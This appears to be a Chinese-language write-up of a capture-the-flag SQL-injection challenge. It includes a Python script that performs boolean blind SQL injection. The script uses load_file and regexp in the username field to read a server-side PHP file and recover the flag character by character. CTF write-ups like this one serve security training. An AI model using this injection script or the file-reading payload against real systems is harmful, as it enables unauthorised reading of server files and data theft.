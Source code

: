 ![截图](265ab64560cb2191b7608e1759254a64.png)

看起来似乎和上一题区别不大，但是上一题的payload不行，那就说明密码不是字符开头的，就不能进行弱比较了，再看题目说明flag在api/index.php文件中，那么就可以使用load_file去打开文件，得到其中的内容，然后进行盲注比较

regexp相当于正则匹配

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/4/15 22:14
# blog: www.wlhhlc.top
import requests
url = "http://e232d7fb-b70d-4123-a740-369d7137c5dd.challenge.ctf.show:8080/api/index.php"
all_str = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
flag = "ctfshow{"

for i in range(200):
    for j in all_str:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + j),
            'password':0
        }
        res = requests.post(url=url, data=data)
        if r"\u5bc6\u7801\u9519\u8bef" in res.text: #密码错误，如果是0，如果是1则返回查询失败
            flag +=j
            print(flag)
            break
        if j=='}':
            exit()

```
